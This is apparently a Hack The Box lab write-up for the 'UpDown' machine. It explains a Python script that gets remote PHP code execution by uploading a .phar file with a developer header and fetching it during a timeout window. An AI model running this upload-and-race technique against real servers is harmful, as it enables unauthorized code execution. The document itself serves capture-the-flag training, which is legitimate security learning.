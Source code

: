 # Hack The Box. Machines. UpDown

Machine write-up: https://7rocky.github.io/en/htb/updown

### `php_execute.py`

This Python script is used to execute PHP code in a server uploading a file with `.phar` extension (more details in [the write-up](https://7rocky.github.io/en/htb/updown)).

We start by defining some headers needed to access a developer-only endpoint:

```python
HEADERS = {
    'Host': 'dev.siteisup.htb',
    'Special-Dev': 'only4dev'
}
```

Then we do `main`, which performs an initial web request to upload the PHAR file with some PHP code inside:

```python
def main():
    if len(sys.argv) != 2:
        print(f'Usage: python3 {sys.argv[0]} <php-code>')
        exit(1)

    phpcode = sys.argv[1]

    try:
        requests.post(
            'http://10.10.11.177',
            headers=HEADERS,
            data={
                'check': 1
            },
            files={
                'file': (
                    'test.phar',
                    f'http://dev.siteisup.htb\n{phpcode}'.encode()
                )
            },
            timeout=1
        )
    except requests.exceptions.ReadTimeout:
        pass
```

The `timeout` is needed because the response will take a bit of time to arrive, and we are taking advantage of this delay to request the PHAR file and execute the PHP code that is inside.

After the timeout is passed, we make a request to `/uploads` to find the MD5 hash that corresponds to the generated directory (it is easily found using RegEx):

```python
    r = requests.get(
        'http://10.10.11.177/uploads/',
        headers=HEADERS
    )

    directory = re.findall(r'([0-9a-f]{32})/', r.text)[0]
```

Finally, we request the `test.phar` file and print the PHP output:

```python
    r = requests.get(
        f'http://10.10.11.177/uploads/{directory}/test.phar',
        headers=HEADERS
    )

    print('\n'.join(r.text.splitlines()[1:]))
```

Here's an example of how to use this script:

```console
$ python3 php_execute.py '<?php echo "pwned"; ?>'  
pwned
```
